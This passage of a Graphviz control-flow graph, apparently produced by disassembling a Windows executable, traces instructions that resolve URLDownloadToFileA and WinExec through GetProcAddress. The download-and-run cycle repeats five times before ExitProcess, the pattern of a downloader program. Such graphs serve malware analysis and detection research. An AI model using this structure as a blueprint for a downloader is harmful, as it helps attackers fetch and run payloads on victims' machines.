a0x0040136apushl_0x0UINT8 -> a0x0040136cpushl_0x0UINT8 [color="#000000"];
a0x0040136cpushl_0x0UINT8 -> a0x0040136emovl_0x00402014_eax [color="#000000"];
a0x0040136emovl_0x00402014_eax -> a0x00401373pushl_eax [color="#000000"];
a0x00401373pushl_eax -> a0x00401374movl_0x00402010_eax [color="#000000"];
a0x00401374movl_0x00402010_eax -> a0x00401379pushl_eax [color="#000000"];
a0x00401379pushl_eax -> a0x0040137apushl_0x0UINT8 [color="#000000"];
a0x0040137apushl_0x0UINT8 -> a0x0040137cpushl_0x40148cUINT32 [color="#000000"];
a0x0040137cpushl_0x40148cUINT32 -> a0x00401381movl_ebx__eax [color="#000000"];
a0x00401381movl_ebx__eax -> a0x00401383pushl_eax [color="#000000"];
a0x00401383pushl_eax -> a0x00401384call_0x00401008 [color="#000000"];
a0x00401384call_0x00401008 -> a0x00401008jmp_GetProcAddress_kernel32_dll [color="#000000"];
GetProcAddress_kernel32_dll -> a0x00401389call_eax [color="#000000"];
a0x00401389call_eax -> URLDownloadToFileA_URLMON_DLL [color="#000000"];
URLDownloadToFileA_URLMON_DLL -> a0x0040138bpushl_0x5UINT8 [color="#000000"];
a0x0040138bpushl_0x5UINT8 -> a0x0040138dmovl_0x00402014_eax [color="#000000"];
a0x0040138dmovl_0x00402014_eax -> a0x00401392pushl_eax [color="#000000"];
a0x00401392pushl_eax -> a0x00401393pushl_0x4014a0UINT32 [color="#000000"];
a0x00401393pushl_0x4014a0UINT32 -> a0x00401398movl_esi__eax [color="#000000"];
a0x00401398movl_esi__eax -> a0x0040139apushl_eax [color="#000000"];
a0x0040139apushl_eax -> a0x0040139bcall_0x00401008 [color="#000000"];
a0x0040139bcall_0x00401008 -> a0x00401008jmp_GetProcAddress_kernel32_dll [color="#000000"];
GetProcAddress_kernel32_dll -> a0x004013a0call_eax [color="#000000"];
a0x004013a0call_eax -> WinExec_kernel32_dll [color="#000000"];
WinExec_kernel32_dll -> a0x004013a2pushl_0x0UINT8 [color="#000000"];
a0x004013a2pushl_0x0UINT8 -> a0x004013a4pushl_0x0UINT8 [color="#000000"];
a0x004013a4pushl_0x0UINT8 -> a0x004013a6movl_0x0040202c_eax [color="#000000"];
a0x004013a6movl_0x0040202c_eax -> a0x004013abpushl_eax [color="#000000"];
a0x004013abpushl_eax -> a0x004013acmovl_0x00402028_eax [color="#000000"];
a0x004013acmovl_0x00402028_eax -> a0x004013b1pushl_eax [color="#000000"];
a0x004013b1pushl_eax -> a0x004013b2pushl_0x0UINT8 [color="#000000"];
a0x004013b2pushl_0x0UINT8 -> a0x004013b4pushl_0x40148cUINT32 [color="#000000"];
a0x004013b4pushl_0x40148cUINT32 -> a0x004013b9movl_ebx__eax [color="#000000"];
a0x004013b9movl_ebx__eax -> a0x004013bbpushl_eax [color="#000000"];
a0x004013bbpushl_eax -> a0x004013bccall_0x00401008 [color="#000000"];
a0x004013bccall_0x00401008 -> a0x00401008jmp_GetProcAddress_kernel32_dll [color="#000000"];
GetProcAddress_kernel32_dll -> a0x004013c1call_eax [color="#000000"];
a0x004013c1call_eax -> URLDownloadToFileA_URLMON_DLL [color="#000000"];
URLDownloadToFileA_URLMON_DLL -> a0x004013c3pushl_0x5UINT8 [color="#000000"];
a0x004013c3pushl_0x5UINT8 -> a0x004013c5movl_0x0040202c_eax [color="#000000"];
a0x004013c5movl_0x0040202c_eax -> a0x004013capushl_eax [color="#000000"];
a0x004013capushl_eax -> a0x004013cbpushl_0x4014a0UINT32 [color="#000000"];
a0x004013cbpushl_0x4014a0UINT32 -> a0x004013d0movl_esi__eax [color="#000000"];
a0x004013d0movl_esi__eax -> a0x004013d2pushl_eax [color="#000000"];
a0x004013d2pushl_eax -> a0x004013d3call_0x00401008 [color="#000000"];
a0x004013d3call_0x00401008 -> a0x00401008jmp_GetProcAddress_kernel32_dll [color="#000000"];
GetProcAddress_kernel32_dll -> a0x004013d8call_eax [color="#000000"];
a0x004013d8call_eax -> WinExec_kernel32_dll [color="#000000"];
WinExec_kernel32_dll -> a0x004013dapushl_0x0UINT8 [color="#000000"];
a0x004013dapushl_0x0UINT8 -> a0x004013dcpushl_0x0UINT8 [color="#000000"];
a0x004013dcpushl_0x0UINT8 -> a0x004013demovl_0x00402034_eax [color="#000000"];
a0x004013demovl_0x00402034_eax -> a0x004013e3pushl_eax [color="#000000"];
a0x004013e3pushl_eax -> a0x004013e4movl_0x00402030_eax [color="#000000"];
a0x004013e4movl_0x00402030_eax -> a0x004013e9pushl_eax [color="#000000"];
a0x004013e9pushl_eax -> a0x004013eapushl_0x0UINT8 [color="#000000"];
a0x004013eapushl_0x0UINT8 -> a0x004013ecpushl_0x40148cUINT32 [color="#000000"];
a0x004013ecpushl_0x40148cUINT32 -> a0x004013f1movl_ebx__eax [color="#000000"];
a0x004013f1movl_ebx__eax -> a0x004013f3pushl_eax [color="#000000"];
a0x004013f3pushl_eax -> a0x004013f4call_0x00401008 [color="#000000"];
a0x004013f4call_0x00401008 -> a0x00401008jmp_GetProcAddress_kernel32_dll [color="#000000"];
GetProcAddress_kernel32_dll -> a0x004013f9call_eax [color="#000000"];
a0x004013f9call_eax -> URLDownloadToFileA_URLMON_DLL [color="#000000"];
URLDownloadToFileA_URLMON_DLL -> a0x004013fbpushl_0x5UINT8 [color="#000000"];
a0x004013fbpushl_0x5UINT8 -> a0x004013fdmovl_0x00402034_eax [color="#000000"];
a0x004013fdmovl_0x00402034_eax -> a0x00401402pushl_eax [color="#000000"];
a0x00401402pushl_eax -> a0x00401403pushl_0x4014a0UINT32 [color="#000000"];
a0x00401403pushl_0x4014a0UINT32 -> a0x00401408movl_esi__eax [color="#000000"];
a0x00401408movl_esi__eax -> a0x0040140apushl_eax [color="#000000"];
a0x0040140apushl_eax -> a0x0040140bcall_0x00401008 [color="#000000"];
a0x0040140bcall_0x00401008 -> a0x00401008jmp_GetProcAddress_kernel32_dll [color="#000000"];
GetProcAddress_kernel32_dll -> a0x00401410call_eax [color="#000000"];
a0x00401410call_eax -> WinExec_kernel32_dll [color="#000000"];
WinExec_kernel32_dll -> a0x00401412pushl_0x0UINT8 [color="#000000"];
a0x00401412pushl_0x0UINT8 -> a0x00401414pushl_0x0UINT8 [color="#000000"];
a0x00401414pushl_0x0UINT8 -> a0x00401416movl_0x0040203c_eax [color="#000000"];
a0x00401416movl_0x0040203c_eax -> a0x0040141bpushl_eax [color="#000000"];
a0x0040141bpushl_eax -> a0x0040141cmovl_0x00402038_eax [color="#000000"];
a0x0040141cmovl_0x00402038_eax -> a0x00401421pushl_eax [color="#000000"];
a0x00401421pushl_eax -> a0x00401422pushl_0x0UINT8 [color="#000000"];
a0x00401422pushl_0x0UINT8 -> a0x00401424pushl_0x40148cUINT32 [color="#000000"];
a0x00401424pushl_0x40148cUINT32 -> a0x00401429movl_ebx__eax [color="#000000"];
a0x00401429movl_ebx__eax -> a0x0040142bpushl_eax [color="#000000"];
a0x0040142bpushl_eax -> a0x0040142ccall_0x00401008 [color="#000000"];
a0x0040142ccall_0x00401008 -> a0x00401008jmp_GetProcAddress_kernel32_dll [color="#000000"];
GetProcAddress_kernel32_dll -> a0x00401431call_eax [color="#000000"];
a0x00401431call_eax -> URLDownloadToFileA_URLMON_DLL [color="#000000"];
URLDownloadToFileA_URLMON_DLL -> a0x00401433pushl_0x5UINT8 [color="#000000"];
a0x00401433pushl_0x5UINT8 -> a0x00401435movl_0x0040203c_eax [color="#000000"];
a0x00401435movl_0x0040203c_eax -> a0x0040143apushl_eax [color="#000000"];
a0x0040143apushl_eax -> a0x0040143bpushl_0x4014a0UINT32 [color="#000000"];
a0x0040143bpushl_0x4014a0UINT32 -> a0x00401440movl_esi__eax [color="#000000"];
a0x00401440movl_esi__eax -> a0x00401442pushl_eax [color="#000000"];
a0x00401442pushl_eax -> a0x00401443call_0x00401008 [color="#000000"];
a0x00401443call_0x00401008 -> a0x00401008jmp_GetProcAddress_kernel32_dll [color="#000000"];
GetProcAddress_kernel32_dll -> a0x00401448call_eax [color="#000000"];
a0x00401448call_eax -> WinExec_kernel32_dll [color="#000000"];
WinExec_kernel32_dll -> a0x0040144apushl_0x0UINT8 [color="#000000"];
a0x0040144apushl_0x0UINT8 -> a0x0040144cpushl_0x0UINT8 [color="#000000"];
a0x0040144cpushl_0x0UINT8 -> a0x0040144emovl_0x00402044_eax [color="#000000"];
a0x0040144emovl_0x00402044_eax -> a0x00401453pushl_eax [color="#000000"];
a0x00401453pushl_eax -> a0x00401454movl_0x00402040_eax [color="#000000"];
a0x00401454movl_0x00402040_eax -> a0x00401459pushl_eax [color="#000000"];
a0x00401459pushl_eax -> a0x0040145apushl_0x0UINT8 [color="#000000"];
a0x0040145apushl_0x0UINT8 -> a0x0040145cpushl_0x40148cUINT32 [color="#000000"];
a0x0040145cpushl_0x40148cUINT32 -> a0x00401461movl_ebx__eax [color="#000000"];
a0x00401461movl_ebx__eax -> a0x00401463pushl_eax [color="#000000"];
a0x00401463pushl_eax -> a0x00401464call_0x00401008 [color="#000000"];
a0x00401464call_0x00401008 -> a0x00401008jmp_GetProcAddress_kernel32_dll [color="#000000"];
GetProcAddress_kernel32_dll -> a0x00401469call_eax [color="#000000"];
a0x00401469call_eax -> URLDownloadToFileA_URLMON_DLL [color="#000000"];
URLDownloadToFileA_URLMON_DLL -> a0x0040146bpushl_0x5UINT8 [color="#000000"];
a0x0040146bpushl_0x5UINT8 -> a0x0040146dmovl_0x00402044_eax [color="#000000"];
a0x0040146dmovl_0x00402044_eax -> a0x00401472pushl_eax [color="#000000"];
a0x00401472pushl_eax -> a0x00401473pushl_0x4014a0UINT32 [color="#000000"];
a0x00401473pushl_0x4014a0UINT32 -> a0x00401478movl_esi__eax [color="#000000"];
a0x00401478movl_esi__eax -> a0x0040147apushl_eax [color="#000000"];
a0x0040147apushl_eax -> a0x0040147bcall_0x00401008 [color="#000000"];
a0x0040147bcall_0x00401008 -> a0x00401008jmp_GetProcAddress_kernel32_dll [color="#000000"];
GetProcAddress_kernel32_dll -> a0x00401480call_eax [color="#000000"];
a0x00401480call_eax -> WinExec_kernel32_dll [color="#000000"];
WinExec_kernel32_dll -> a0x00401482popl_esi [color="#000000"];
a0x00401482popl_esi -> a0x00401483popl_ebx [color="#000000"];
a0x00401483popl_ebx -> a0x00401484call_0x0040108c [color="#000000"];
a0x00401484call_0x0040108c -> a0x0040108cpushl_0x0040300c [color="#000000"];
a0x0040108cpushl_0x0040300c -> a0x00401092call_0x00403010 [color="#000000"];
a0x00401092call_0x00403010 -> ExitProcess_kernel32_dll [color="#000000"];
}
